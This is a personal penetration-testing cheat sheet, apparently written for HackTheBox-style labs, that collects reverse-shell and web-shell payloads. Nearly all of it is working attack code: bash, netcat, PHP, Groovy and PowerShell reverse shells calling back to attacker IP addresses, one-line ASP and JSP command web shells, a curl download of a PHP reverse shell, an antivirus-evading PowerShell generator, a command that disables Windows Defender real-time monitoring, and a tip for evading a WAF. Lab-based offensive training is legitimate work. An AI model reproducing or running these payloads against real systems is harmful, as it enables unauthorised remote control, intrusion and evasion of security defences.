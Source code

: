 ! Use 443 port to evade WAF.
#shell

#### Generator
https://www.revshells.com/
#### Powershell generator
Encrypted & Passes AV
https://github.com/Adkali/PowerJoker
```bash
git clone https://github.com/Adkali/PowerJoker && cd Powerjoker
python3 PowerJoker.py -l 10.10.16.84 -p 1337
```
#### Basic bash shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'

echo -ne 'bash -i >& /dev/tcp/10.10.14.25/4444 0>&1' | base64

echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

```

```php
system('rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/bash+-i+2>%261|nc+10.10.14.6+4444+>/tmp/f')
```
##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty size;stty raw -echo;fg
#export SHELL=bash
#stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
or
```bash
script /dev/null bash
```
Good shell
```
rlwrap nc -lvnp
```
#### [[metasploit]]

#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
#php

```bash
curl https://raw.githubusercontent.com/Wh1ter0sEo4/reverse_shell_php/refs/heads/main/reverse_shell.php > rsh.php 
```

##### Java:
#java
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
#asp
```asp
<% eval request("cmd") %>
```

##### JSP:
[[jsp]] #java
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
[[groovy]]
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
[[Local Ports]]
[[socat]] #bash #shell
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

forward to app
```bash
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak & 
```

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):
[[powershell]]
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows
Disable AV to allow running shell from admin's powershell:
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
